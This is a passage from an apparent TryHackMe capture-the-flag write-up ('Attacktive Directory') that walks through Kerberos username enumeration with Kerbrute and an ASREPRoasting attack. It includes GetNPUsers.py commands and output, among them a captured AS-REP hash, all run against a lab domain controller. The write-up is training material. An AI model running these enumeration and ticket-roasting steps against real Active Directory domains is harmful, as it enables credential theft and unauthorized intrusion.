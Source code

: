 ```
2020/10/17 11:08:22 >  [+] VALID USERNAME:       administrator@spookysec.local
2020/10/17 11:08:23 >  [+] VALID USERNAME:       backup@spookysec.local
2020/10/17 11:08:23 >  [+] VALID USERNAME:       paradox@spookysec.local
2020/10/17 11:08:27 >  [+] VALID USERNAME:       JAMES@spookysec.local
2020/10/17 11:08:28 >  [+] VALID USERNAME:       Robin@spookysec.local
2020/10/17 11:08:37 >  [+] VALID USERNAME:       Administrator@spookysec.local
2020/10/17 11:08:52 >  [+] VALID USERNAME:       Darkstar@spookysec.local
2020/10/17 11:08:57 >  [+] VALID USERNAME:       Paradox@spookysec.local
2020/10/17 11:09:14 >  [+] VALID USERNAME:       DARKSTAR@spookysec.local
2020/10/17 11:09:19 >  [+] VALID USERNAME:       ori@spookysec.local
2020/10/17 11:09:28 >  [+] VALID USERNAME:       ROBIN@spookysec.local
2020/10/17 11:10:16 >  Done! Tested 100000 usernames (16 valid) in 116.694 seconds
```

`svc-admin`

3. What is the other notable account is discovered? (These should jump out at you)

`backup`

## Task 5 Exploiting Kerberos

**Introduction**

After the enumeration of user accounts is finished, we can attempt to abuse a feature within Kerberos with an attack method called ASREPRoasting. ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

**Exploitation**

Impacket has a tool called "GetNPUsers.py" (located in Impacket/Examples/GetNPUsers.py) that will allow us to query ASReproastable accounts from the Key Distribution Center. The only thing that's necessary to query accounts is a valid set of usernames which we enumerated previously via Kerbrute.

1. We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?

```
kali@kali:~/CTFs/tryhackme/Attacktive Directory$ sudo python3 /opt/impacket/examples/GetNPUsers.py spookysec.local/svc-admin -request -no-pass -dc-ip 10.10.225.245
Impacket v0.9.22.dev1+20201015.130615.81eec85a - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:27ca0413dd02b080a5370b1114e15d26$9dbfc5b2a618fab698eedcb5022d7cf1a86735364938defc0f06aa73cc608748b84aa5e3735f3f8942ff12d54da014ddc485155c919c30fbc671b91b7c27a07c2c5ba6f9c4ef637812035f73642fb38d3509d61a244b16376adcb42a31feb91b24dc816b90cca74497e7fe4c8f8883ad3124005c197cccc68dcc4cc499eb462aba71b22892c6b9e9dd53339087f61ac74a20752aecbe82df48d22bd373bfda0254084c47e7046a1d26f02c062a1599f4133b93a55de6d8bcd83dfc87166ef8c53b229934249c88785628fb4012480f20556d35dace5bf67b05470f0215298d4c6d1fa2e218e8930e1f29437d390b230ef396

kali@kali:~/CTFs/tryhackme/Attacktive Directory$ sudo python3 /opt/impacket/examples/GetNPUsers.py spookysec.local/backup -request -no-pass -dc-ip 10.10.225.245
Impacket v0.9.22.dev1+20201015.130615.81eec85a - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for backup
[-] User backup doesn't have UF_DONT_REQUIRE_PREAUTH set
```
